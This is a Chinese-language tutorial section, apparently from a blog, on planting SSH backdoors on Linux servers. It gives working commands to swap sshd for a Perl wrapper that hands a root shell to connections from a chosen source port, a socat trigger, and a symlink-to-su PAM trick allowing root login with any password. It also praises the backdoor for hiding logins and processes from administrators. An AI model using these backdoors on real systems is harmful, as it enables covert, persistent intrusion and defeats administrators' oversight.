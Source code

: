 ### 0x04 SSH 后门

#### 4.1 SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到 / bin/sh 中:

```
cd /usr/sbin/
mv sshd ../bin/

echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd   //4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

/etc/init.d/sshd restart


```

在本机执行:

```
socat STDIO TCP4:target_ip:22,sourceport=13377


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165200237-492698024.png)

实现原理：init 首先启动的是 /usr/sbin/sshd , 脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行 sh 给个 shell。

想要修改连接端口的话可以利用 py 修改：

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305165647857-2116649151.png)

优点：  
1、在无连接后门的情况下，管理员是看不到端口和进程的，last 也查不到登陆。  
2、在针对边界设备出网，内网 linux 服务器未出网的情况下，留这个后门可以随时管理内网 linux 服务器，还不会留下文件和恶意网络连接记录。

#### 4.2 SSH 软连接后门

软连接后门的原理是利用了 PAM 配置文件的作用，将 sshd 文件软连接名称设置为 su，这样应用在启动过程中他会去 PAM 配置文件夹中寻找是否存在对应名称的配置信息 (su)，然而 su 在 pam_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:

```
ln -sf /usr/sbin/sshd /tmp/su
/tmp/su -oPort=888

ssh root@127.0.0.1 -p 888


```
